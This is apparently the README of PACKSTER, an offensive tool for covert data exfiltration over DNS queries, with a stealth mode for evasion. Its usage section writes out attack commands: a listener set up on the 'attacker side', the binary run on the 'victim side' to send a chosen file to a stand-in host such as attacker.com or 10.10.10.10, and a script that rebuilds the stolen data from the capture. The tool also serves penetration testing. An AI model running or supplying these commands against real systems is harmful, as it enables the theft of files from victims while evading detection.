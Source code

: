 # PACKSTER

## Overview
PACKSTER is a powerful exfiltration tool designed for demonstrating efficient data exfiltration and security testing. It allows for controlled and stealthy data exfiltration by utilizing DNS queries, making it a valuable tool for cybersecurity professionals and penetration testers.

## Features
- Fast and reliable data exfiltration
- Supports multiple transport methods
- Customizable payload handling
- Stealth mode for evasion techniques
- Logging and error handling for debugging

## Watch The Demo

[![Packster Demo]([https://img.youtube.com/vi/r4g577TrCSw/maxresdefault.jpg](https://raw.githubusercontent.com/Sayan690/Packster/refs/heads/main/resources/packster.png))](https://www.youtube.com/watch?v=r4g577TrCSw)

## Installation
### Prerequisites
Ensure you have Python installed on your system. PACKSTER requires Python 3.x.

### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

### Get The [Release Binaries](https://github.com/Sayan690/Packster/releases/)

OR

### Compile It Locally

Requirements - pyinstaller

#### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

#### Compile Using Pyinstaller

```bash
pyinstaller -F packety.py --icon=resources/packster.ico
```

### Install Dependencies
```bash
pip install -r requirements.txt
```

## Usage
To run PACKSTER, follow these steps:

- Start the listener on the attacker side

```bash
tcpdump -i any -w capture.pcap
```

- Transfer the [packster binary](https://github.com/Sayan690/Packster/releases/) to the victim side and execute

```bash
.\packster.exe -f C:\Path\To\File -a attacker.com

./packster.exe -f /Path/To/File -a 10.10.10.10
```

- After the process exits printing "done.", exit out from tcpdump, and run `filtrz.py`

```bash
python3 filtrz.py -a attacker.com -c capture.pcap -o output_file_name.txt
```

## Disclaimer
PACKSTER is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.

